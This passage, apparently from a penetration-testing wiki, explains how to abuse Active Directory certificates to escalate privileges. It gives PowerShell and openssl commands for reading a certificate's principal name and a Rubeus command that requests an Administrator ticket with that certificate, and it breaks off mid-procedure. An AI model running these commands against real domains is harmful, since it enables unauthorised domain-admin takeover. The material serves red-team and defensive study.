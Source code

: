 1. create a `-new` certificate request from given policy file
2. `-Submit` the generated `request.pem` to the certificate authority
3. `-Accept` and install the response of the certificate authority



#### Using an existing certificate

If you already have a certificate for another user you might be able to obtain a TGT for this user. However you need to manually check if the certificate fulfills the requirements from the exploitation step.

The `subject alternative name` can be extracted for a certificate from the current users store 

```c
$cert = get-childitem cert:\currentuser\my\<Thumbprint>
$sanExt = $cert.Extensions | Where-Object{$_.Oid.FriendlyName -eq "subject alternative name"}
$sanExt.Format(1)
```

```text
sample output: 

Other name:
    Principal Name=Administrator
```

or using openssl

```bash
openssl asn1parse -in test.cer -inform der # search for the OCTET STRING offset after :X509v3 Subject Alternative Name
openssl asn1parse -in test.cer -inform der -strparse <offset>
```

```text
sample output:

    0:d=0  hl=2 l=  31 cons: SEQUENCE          
    2:d=1  hl=2 l=  29 cons: cont [ 0 ]        
    4:d=2  hl=2 l=  10 prim: OBJECT            :Microsoft User Principal Name
   16:d=2  hl=2 l=  15 cons: cont [ 0 ]        
   18:d=3  hl=2 l=  13 prim: UTF8STRING        :Administrator
```

> when parsing certificates \(.cer\) with openssl you might need to inform openssl about the certificate format e.g. \(DER \| PEM\)

### Using Rubeues to escalate privileges with the certificate

Obtain a **Ticket Granting Ticket \(TGT\)** for the User Principal Name \(UPN\)

```text
Rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /outfile:admin_tgt.kirbi
```

Obtain a **Ticket Granting Service \(TGS\)** for the obtained Ticket Granting Ticket \(TGT\)
